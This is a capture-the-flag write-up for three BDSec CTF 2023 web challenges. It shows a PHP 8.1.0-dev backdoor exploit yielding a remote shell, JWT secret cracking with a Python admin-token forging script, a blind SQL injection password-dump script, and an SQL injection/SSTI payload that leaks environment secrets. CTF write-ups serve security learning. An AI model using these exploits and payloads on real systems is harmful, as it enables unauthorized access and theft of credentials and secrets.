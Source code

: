 ```yaml
---
title: "BdecCTF 2023 - webx3"
excerpt: "📅 Time: Thursday, 20 July 2023, 22:00 ICT (one month ago) — Friday, 21 July 2023, 22:00 ICT (one month ago) (~GMT +7)
✅ Rating weight: 12.23 :bully:
💻 Official URL: https://2023.bdsec-ctf.com"
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/Bk4JqAi9n.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - English
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/Bk4JqAi9n.png">
</p>

# Can you see me?

Description: 


<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/HyIfqAjch.png"/>

The description says quite a bit about php, so I focused on testing php but didn't get much results. I noticed that the web application using `PHP/8.1.0-dev` has a public exploit code.

![](https://hackmd.io/_uploads/BJ-IZy2q3.png)


Here is the PoC: [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933)

Solution:
```
┌──(taiwhis㉿kali)-[~/Downloads]
└─$ python 1.py
Enter the full host url:
http://139.144.184.115:8989/

Interactive shell is opened on http://139.144.184.115:8989/ 
Can't acces tty; job crontol turned off.
$ ls
index.php

$ ls /root
flag.txt

$ cat /root/flag.txt
BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}

```


# What is 5 minus 4?

Description:

<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/SyXXdJ39h.png"/>


Solution:
Try crack JWT to find secret

```
Cookie: access_token_cookie=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5MDIwMDYwNywianRpIjoiM2JjMzE5MDQtMmZlMy00MjAwLThmNzEtYTQyNmEyYjA5OTMyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6OTY0MiwibmJmIjoxNjkwMjAwNjA3LCJleHAiOjE2OTAyMDE1MDd9.aQWBkU0Sn0vyHzdPy86g76UU_dWe-Tw14_EQKv8NNIY
```

i will use hashcat.

```
┌──(taiwhis㉿kali)-[~/Downloads]
└─$ hashcat -h | grep 16500
  16500 | JWT (JSON Web Token)                                       | Network Protocol

```

Run crack jwt:
```
┌──(taiwhis㉿kali)-[~/Downloads]
└─$ hashcat -a 0 -m 16500 1.txt wordlist.txt                                    
hashcat (v6.2.6) starting

```

Secret key: `this_is_a_dev_secret`
now i can edit the jwt to elevate the account permissions.


<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/HknNOxh5n.png"/>

now i will change the jwt in the `sub` to `1`. is's admin account.

Jwt after it was fixed.

```
Cookie: access_token_cookie=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6dHJ1ZSwiaWF0IjoxNjkwMjAzOTg5LCJqdGkiOiI4OWY3YjE4MC00Yzc5LTQxZTktODdhNi1jYzIxMmQ5MjY4NzciLCJ0eXBlIjoiYWNjZXNzIiwic3ViIjoxLCJuYmYiOjE2OTAyMDM5ODksImV4cCI6MTY5MDIwNDg4OX0.EF-tYblAP56RG2bWuhuc_KyDZgvELj4058M74pW2fVc
```

Using the modified JWT we can get the flag.

![](https://hackmd.io/_uploads/HkU6_x39n.png)

Script:

```python=
import requests
import string
import random
import jwt

url = "http://45.56.116.251:5050/"
secret = "this_is_a_dev_secret"

def session_requests(sess, method, endpoint, data=None):
    try:
        if method == 'POST':
            response = sess.post(url + endpoint, data=data)
        else:
            response = sess.get(url + endpoint, data=data)
        response.raise_for_status()
        return response.text
    except requests.exceptions.RequestException as e:
        print(f"Have error: {e}")
        return None

with requests.Session() as session:
    username = ''.join(random.choices(string.ascii_letters + string.digits, k=3))
    session_requests(session, 'POST', 'signup', { 'username':username,'name':username,'description':'lll','password':'lll' })
    session_requests(session, 'POST', 'login', { 'username':username,'password':'lll' } )
    
    old_jwt = session.cookies.get_dict()['access_token_cookie']
    
    decode_jwt = jwt.decode(old_jwt, secret, algorithms=["HS256"])
    decode_jwt['sub'] = 1 # sub of admin
    new_jwt = jwt.encode(decode_jwt, secret, algorithm="HS256")
    
    res = requests.get(url + 'profile', headers={ 'Cookie': 'access_token_cookie=' + new_jwt }) # request with another session
    print(res.text)
```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 1.py
<!DOCTYPE html>
<html>

.........
                
<div class="box">
  <h1 class="title">
    Welcome, admin
  </h1>
  <p class="content"> BDSEC{m4k3_y0ur_53cr37_k3y_57r0n63r} </p>
</div>

            </div>
        </div>
    </section>
</body>
</html>
```

# Injection

Description:

<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/ByFtgQhq3.png"/>

Source code [here](https://drive.google.com/drive/folders/1NERMdtbud-3ZvPzdRCRnt1Qw39gFeKHy?usp=sharing).


I didn't solve this challenge, so after this CTF ended I consulted from everyone in discord.
There is basically a 2022 CTF that has the same idea as this challenge.
Refer click [ductf-sqli2022](https://www.justinsteven.com/posts/2022/09/27/ductf-sqli2022/).

My script solution:

```
output = cur.execute(
        'SELECT * FROM users WHERE username = {data[username]!r} AND password = {data[password]!r}'
        .format(data=data)
    ).fetchone()

```

in the source code contains a SQL injection vulnerability. I will try to focus mining here. However, FLAG is md5 encrypted and it is very likely that getting the flag will be difficult to decrypt.

Dump password `admin`:
```python
import requests
from hashlib import md5
import string

url = "http://139.144.184.115:1337/login"
session = requests.session()

password = ""

chars = string.digits + string.ascii_lowercase

for i in range(32):
    for m in chars:
        query = f'(SELECT hex(substr(password, {i+1}, 1)) FROM users WHERE username = "admin") = "{m.encode("utf-8").hex()}"'
        data = { "username" : "aaa\"'","password" : f"OR {query};-- -" }
        res = session.post(url, data)
        if 'You cant Hack Uss!!!' in res.text:
            password += m
            print("Found: ", m)

print("Password", password)
```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 2.py
Password: 98371fd6630a26b9f04d623a6ea3d0af
```

SSTI leaked environment variable:

You can see the username after being logged in will be returned here. Therefore, it can be used to insert the SSTI payload.

```py=
return f'Yoo!! {data["username"]}!'.format(data=data)
```

* To be able to display this message need:
    * SQL must return a row from the database
    * Also username and password must match the data in the database.

Solution script:  
username:
`"\'UNION SELECT printf(char(34,92,39)||s,char(34),s,char(34)),1||1 FROM(SELECT"UNION SELECT printf(char(34,92,39)||s,char(34),s,char(34)),1||1 FROM(SELECT%c%s%cs)--{data.__class__.__copy__.__globals__[mimetypes].os.environ[FLAG]}"s)--`

Flag: `BDSEC{f1nj3c710n5_4r3_p41nful}`
